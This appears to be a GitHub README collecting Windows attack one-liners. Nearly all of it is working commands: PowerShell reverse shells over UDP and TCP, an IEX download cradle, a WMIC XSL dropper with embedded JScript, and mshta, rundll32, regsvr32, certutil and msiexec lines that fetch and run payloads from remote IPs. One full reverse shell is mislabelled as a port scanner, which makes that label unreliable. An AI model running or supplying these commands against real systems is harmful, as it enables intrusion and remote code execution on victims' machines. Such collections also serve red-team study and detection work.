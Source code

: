 This is a repository for github One Liners for Windows. You can port scan, get reverse shells with so many methods like below.

Reverse Shell Command Execution through UDP

powershell -nop -c "$s=New-Object System.Net.Sockets.Socket([System.Net.Sockets.AddressFamily]::InterNetwork,[System.Net.Sockets.SocketType]::Dgram,[System.Net.Sockets.ProtocolType]::UDP);$s.Connect((New-Object System.Net.IPEndPoint([system.net.IPAddress]::Parse(\"<HOSTIP>\"),53)));$s.send(([System.Text.Encoding]::ASCII).GetBytes((whoami)));"

Reverse Shell Command Execution through tcp
powershell -c "whoami | % {$w=(New-Object System.IO.StreamWriter((New-Object System.Net.Sockets.TCPClient([System.Net.IPAddress]::Parse(\"<HOSTIP>\"),80)).GetStream()));$w.WriteLine($_);$w.Flush()}"

Download PS Script
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/ipw.ps1')"

PS Port Scanner
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

WMIC Dropper
wmic os get /format:"https://webserver/payload.xsl"

payload.xsl :

<?xml version='1.0'?>
<stylesheet xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt" xmlns:user="placeholder" version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
		<![CDATA[
			var r = new ActiveXObject("WScript.Shell").Run("cmd.exe /c echo IEX(New-Object Net.WebClient).DownloadString('http://10.2.0.5/shell.ps1') | powershell -noprofile -");
		]]>
	</ms:script>
</stylesheet>

MSHTA Download
mshta.exe http://192.168.1.109:8080/5EEiDSd70ET0k.hta

RUNDLL Execute from SMB
rundll32.exe \\192.168.1.109\vabFG\test.dll,0

REGSRV Download and Execute
regsvr32 /s /n /u /i:http://192.168.1.109:8080/xo31Jt5dIF.sct scrobj.dll

CERTUTIL Download and Execute
certutil.exe -urlcache -split -f http://192.168.1.109/shell.exe shell.exe & shell.exe

MSIEXEC Download and Execute
msiexec /q /i http://192.168.1.109/1.msi

